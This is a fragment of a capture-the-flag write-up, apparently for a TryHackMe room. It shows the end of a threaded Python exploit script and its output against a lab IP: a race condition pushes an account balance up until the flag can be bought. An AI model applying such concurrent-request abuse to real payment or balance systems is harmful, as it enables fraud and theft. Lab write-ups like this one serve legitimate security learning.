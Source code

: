 ```python
        t_purchase.start()

    # Wait for all threads to finish
    for thread in threads:
        thread.join()
```

### Output

```bash
$ python3 exploit.py 10.10.104.9
Current balance: 10000

Sorry, you don't have enough money to purchase the flag
Current balance: 10000
Sorry, you don't have enough money to purchase the flag
Current balance: 0
Current balance: 10000
Current balance: 10000
Sorry, you don't have enough money to purchase the flag
Current balance: 20000
...
Sorry, you don't have enough money to purchase the flag
Sorry, you don't have enough money to purchase the flag
Current balance: 10000
Sorry, you don't have enough money to purchase the flag
Current balance: 0
THM{R4**REDACTED**$$}
Current balance: 15000
```